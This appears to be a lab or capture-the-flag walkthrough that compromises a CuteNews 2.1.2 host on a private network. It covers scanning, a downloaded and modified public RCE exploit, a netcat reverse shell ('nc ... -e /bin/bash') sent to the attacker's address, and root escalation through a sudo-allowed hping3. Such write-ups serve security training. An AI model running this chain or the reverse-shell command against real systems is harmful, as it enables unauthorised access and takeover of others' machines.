


# Nmap
```bash
nmap -A -T4 -p 80,22,88,110,995 --open 192.168.225.128

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) TOP IMPLEMENTATION(Courier Mail Server) UTF8(USER) UIDL USER STLS PIPELINING
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_pop3-capabilities: LOGIN-DELAY(10) PIPELINING UTF8(USER) UIDL USER IMPLEMENTATION(Courier Mail Server) TOP
|_ssl-date: TLS randomness does not represent time
```

# Feroxbuster
```bash
feroxbuster -u http://192.168.225.128 --scan-dir-listings -E

#results
[####################] - 4m    206904/206904  963/s   http://192.168.225.128/ 
[####################] - 4m    209106/209106  918/s   http://192.168.225.128/uploads/ 
[####################] - 3m    208014/208014  994/s   http://192.168.225.128/docs/ 
[####################] - 4m    210000/210000  864/s   http://192.168.225.128/skins/ 
[####################] - 4m    208828/208828  932/s   http://192.168.225.128/libs/ 
[####################] - 4m    210000/210000  978/s   http://192.168.225.128/core/ 
[####################] - 3m    210000/210000  1057/s  http://192.168.225.128/libs/css/ 
[####################] - 4m    209172/209172  944/s   http://192.168.225.128/manual/ 
[####################] - 3m    210000/210000  1008/s  http://192.168.225.128/manual/images/ 
[####################] - 4m    210000/210000  928/s   http://192.168.225.128/manual/en/ 
[####################] - 3m    209412/209412  1014/s  http://192.168.225.128/manual/fr/ 
[####################] - 4m    209390/209390  946/s   http://192.168.225.128/manual/fr/misc/ 
[####################] - 4m    209976/209976  976/s   http://192.168.225.128/manual/style/ 
[####################] - 3m    210000/210000  1021/s  http://192.168.225.128/manual/style/css/ 
[####################] - 4m    210000/210000  864/s   http://192.168.225.128/manual/style/latex/ 
[####################] - 4m    210000/210000  995/s   http://192.168.225.128/manual/es/ 
[####################] - 4m    210000/210000  995/s   http://192.168.225.128/manual/style/scripts/ 
[####################] - 4m    210000/210000  954/s   http://192.168.225.128/libs/js/ 
[####################] - 3m    210000/210000  1004/s  http://192.168.225.128/core/includes/ 
[####################] - 4m    210000/210000  968/s   http://192.168.225.128/libs/fonts/ 
[####################] - 3m    210000/210000  1032/s  http://192.168.225.128/core/tools/ 
[####################] - 3m    210000/210000  1007/s  http://192.168.225.128/core/db/ 
[####################] - 4m    210000/210000  965/s   http://192.168.225.128/manual/es/misc/ 
[####################] - 3m    210000/210000  1125/s  http://192.168.225.128/manual/tr/ 
[####################] - 3m    210000/210000  1103/s  http://192.168.225.128/manual/ko/ 
[####################] - 3m    210000/210000  1223/s  http://192.168.225.128/manual/da/ 
[####################] - 3m    210000/210000  1150/s  http://192.168.225.128/manual/tr/misc/ 
[####################] - 3m    210000/210000  1065/s  http://192.168.225.128/manual/fr/ssl/ 
[####################] - 4m    210000/210000  906/s   http://192.168.225.128/manual/fr/mod/ 
[####################] - 3m    210000/210000  1140/s  http://192.168.225.128/manual/tr/faq/ 
[####################] - 4m    210000/210000  931/s   http://192.168.225.128/core/ckeditor/ 
[####################] - 3m    210000/210000  1136/s  http://192.168.225.128/manual/ko/mod/ 
[####################] - 3m    210000/210000  1328/s  http://192.168.225.128/manual/tr/howto/ 
```

# Nikto

```bash
nikto -h http://192.168.225.128
- Nikto v2.6.0
---------------------------------------------------------------------------
+ Your Nikto installation is out of date.
+ Target IP:          192.168.225.128
+ Target Hostname:    192.168.225.128
+ Target Port:        80
+ Platform:           Linux/Unix
+ Start Time:         2026-04-14 21:04:31 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [999984] /: Server may leak inodes via ETags, header found with file /, inode: 29cd, size: 5af83f7e950ce, mtime: gzip. See: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [600050] Apache/2.4.38 appears to be outdated (current is at least 2.4.66).
+ [95] /index.php: Cookie CUTENEWS_SESSION created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ [740000] Multiple index files found (all unique): /index.php, /index.html.

#What is CuteNews?
```


# Exploit search for CuteNews 2.1.2
```bash
searchsploit cutenews 2.1.2
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                                                                                           |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                                                                                                                                                                                                                             | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                                                                                                                                                                                                                 | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                                                                                                                                                                                                                     | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                                                                                                                                                                                                                   | php/webapps/48800.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

# Download exploit
searchsploit -m 48800.py 
```

# Modify Exploit

```bash
# Running the exploit
python3 48800.py

# Resulted in Errors. Review exploit revealed the following:
Throughout the script, the exploit utilized directory /CuteNews/ after the root directory. However through enumeration, we know that does not exist. So we removed all /CuteNews/ throughout the script.
```

# Establish Shell through modified script
```bash
Usage python3 expoit.py
```



# Establish a more stable shell
```bash
# Start Listener
rlwrap nc -nlvp 4444

# Send reverse shell
nc 192.168.45.202 4444 -e /bin/bash

#Grab local.txt
```

# Sudo -l 

```bash
sudo -l

#results
User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
```

# GTOBINS

```BASH
https://gtfobins.org/gtfobins/hping3/

# Says to run:
hping3
/bin/sh -p

# This failed due to an unstable shell. Lets upgrade it.
```

# Upgrade Shell
```bash
#On Kali
python3 -c 'import pty;pty.spawn("/bin/bash")'

#Background it
Ctrl+Z

#Then run
stty raw -echo; fg

#In shell
export TERM=xterm
```

# Priv Esc.
```bash
/usr/sbin/hping3
/bin/sh -p

#Root achieved. Grab flag.
```